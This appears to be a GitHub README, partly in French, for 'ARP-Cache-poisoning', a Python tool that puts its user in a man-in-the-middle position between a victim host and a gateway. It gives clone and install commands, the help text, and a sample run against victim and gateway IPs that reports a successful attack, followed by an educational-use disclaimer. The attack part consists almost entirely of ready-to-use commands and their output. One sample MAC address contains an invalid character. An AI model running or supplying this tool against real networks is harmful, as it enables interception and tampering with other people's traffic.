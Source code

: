 # ARP-Cache-poisoning

- ![#f03c15](https://via.placeholder.com/15/f03c15/000000?text=+) `#f03c15`
# Installation :
```
# Cloner :
git clone https://github.com/PrestaDZ/ARP-Cache-poisoning.git

# Change directory :
cd ARP-Cache-poisoning

# Requirements :
pip3 install -r requirements.txt
```

# Usage :

```

$ sudo python3 acp.py --help

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

usage: python3 acp.py [-h] -s SWITCH_IP -i VICTIM_IP

optional arguments:
  -h, --help            show this help message and exit
  -s SWITCH_IP, --switch-ip SWITCH_IP
                        L'adresse IP de la passerelle.
  -i VICTIM_IP, --victim-ip VICTIM_IP
                        L'adresse IP de la victime.

```

# Exemple :

```
$ sudo python3 acp.py -s 192.168.0.254 -i 192.168.0.10

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

Envoi de 2 paquets ICMP à 192.168.0.10...
------------
Sent : 2 , Received : 0
Packet lost         : 1.0

[!] L'hôte ne répond pas au packets ICMP.
Envoi de 2 paquets ICMP à 192.168.0.254 ...
------------
Sent : 2 , Received : 2
Packet lost         : 0.0


-------------------------------------------
[i] Victime    Ip / MAC  -> 192.168.0.10  : 32:1a:u9:d4:f7:23
[i] Passerelle Ip / MAC  -> 192.168.0.254 : fa:18:8b:a6:21:ce

[+] Lancement de l'attaque ...
[i] Taper controle + C pour quitter le programme.
[+] Attaque lancée avec succès

```

Ce code a pour but de vous mettre dans une position de MiTM entre la victime et la passerelle en corrompant le cache ARP, il a été écrit pour un usage informatif et éducatif et non pour un usage illégal, il est interdit par la loi et punissable de l'utilisé sur un réseau ne vous appartenant pas, et je me désolidarise de ces actes.
